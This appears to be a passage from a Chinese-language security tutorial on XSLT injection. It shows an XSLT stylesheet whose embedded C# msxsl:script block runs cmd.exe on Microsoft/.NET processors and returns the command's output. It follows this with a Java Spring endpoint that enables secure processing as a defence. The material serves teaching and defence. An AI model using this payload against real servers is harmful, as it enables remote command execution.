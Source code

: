 ## 嵌入脚本区块执行远程代码

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
    <xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT ---    
  </xsl:template>
</xsl:stylesheet>
```

这种方式在Java中是不适用的，使用 Microsoft 的 `MSXML` 或 `.NET` 框架进行 XSLT 转换可以用到

# 漏洞防御

添加安全属性

```
@RequestMapping(value = "/transformerFactory/sec")
public String transformerFactorySec(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        TransformerFactory factory = TransformerFactory.newInstance();
        StreamSource xslt = new StreamSource(new StringReader(body));
        factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
        Transformer transformer = factory.newTransformer(xslt);

        StreamSource source = new StreamSource(new StringReader(body));
        StringWriter writer = new StringWriter();
        StreamResult result = new StreamResult(writer);
        transformer.transform(source, result);
        return writer.toString();
    } catch (Exception e){
        logger.error(e.toString());
        return EXCEPT;
    }
}
```
